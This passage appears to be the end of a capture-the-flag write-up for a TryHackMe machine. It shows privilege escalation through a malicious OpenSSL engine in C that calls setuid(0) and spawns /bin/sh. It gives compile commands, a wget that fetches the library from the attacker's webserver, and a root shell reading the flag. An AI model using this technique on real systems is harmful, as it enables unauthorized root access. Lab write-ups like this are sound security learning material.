 Using the provided example I came up with
```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    system("/bin/sh");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
The blog even tells us how to compile:
```bash
$ gcc -fPIC -o silly-engine.o -c silly-engine.c
$ gcc -shared -o silly-engine.so -lcrypto silly-engine.o
```
### Execution
I started a python webserver and transferred our little exploit to the target.
attacker:
```bash
python -m http.server 12345
```
target:
```bash
wget http://${ip.of.attacking.maching}:12345/silly-engine.so
```
Then, just run the command as instructed by GTFObins:
```bash
openssl req -engine ./silly-engine.so
# id
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)
# cd /root
# cat root.txt
thm{RETRACTED}
```

## Conclusion
That was a fun challenge and more straightforward than the description implied. Thanks to the creator of this machine, looking forward to the next ones!
